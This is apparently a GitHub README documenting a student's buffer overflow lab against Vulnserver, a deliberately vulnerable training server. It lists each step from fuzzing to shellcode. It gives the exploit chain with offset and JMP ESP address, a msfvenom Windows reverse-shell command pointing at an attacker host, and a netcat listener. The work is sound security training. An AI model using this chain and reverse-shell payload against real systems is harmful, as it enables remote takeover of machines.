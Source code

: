 # 🔐 Buffer Overflow Lab – Vulnserver Exploitation (Windows)

**Author:** Md. Maruf  
**Platform:** Kali Linux (Attacker), Windows 7 (Victim)  
**Target:** Vulnserver  
**Tools Used:** Immunity Debugger, mona.py, msfvenom, Python, netcat, VMware

---

## 🧠 Objective

Recreate a full buffer overflow exploit on a Windows-based vulnerable server (`Vulnserver`) from scratch. This includes fuzzing, finding the crash offset, controlling EIP, locating a `JMP ESP`, avoiding bad characters, and delivering a reverse shell.

---

## 🗂️ Project Structure

| Step | Folder Name               | Description                                               |
|------|---------------------------|-----------------------------------------------------------|
| 1️⃣   | `1-Spiking`              | Testing available commands with Spike to cause crash     |
| 2️⃣   | `2-Fuzzing`              | Fuzzing to determine crash point                         |
| 3️⃣   | `3-Finding-Offset`       | Using pattern to find exact EIP control offset           |
| 4️⃣   | `4-EIP-Overwrite`        | Confirming EIP control with unique value (`42424242`)    |
| 5️⃣   | `5-Bad-Characters`       | Sending bytes `\x01` to `\xff` to find bad chars         |
| 6️⃣   | `6-Finding-Right-Module` | Using mona.py to find `JMP ESP` in safe module           |
| 7️⃣   | `7-Generating-Shellcode` | Final exploit using reverse shell + NOP + JMP ESP        |
| 8️⃣   | `ROOT` (this README)     | Full project documentation & summary                     |

---

## 🚀 Final Exploit Chain

```python
"A" * 2003 + JMP ESP + "\x90" * 16 + shellcode

Offset: 2003

JMP ESP: 0x625011AF → \xAF\x11\x50\x62

Bad characters: \x00

Shellcode: msfvenom reverse shell (Python format)

📡 Shellcode Generation

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.xxx LPORT=4444 EXITFUNC=thread -f python -b "\x0

Start listener on Kali:
nc -lvnp 4444

Execute script:
python3 7-Generating-Shellcode/shellcode.py

✅ If successful, you'll get a reverse shell from the Windows target.


🏁 End Goal Achieved!
This lab demonstrates:

Manual buffer overflow exploitation

Reverse engineering & debugging

Payload delivery

Vulnerability analysis workflow

📎 Useful Links
Vulnserver: https://github.com/stephenbradshaw/vulnserver

Spike: https://corelan.be

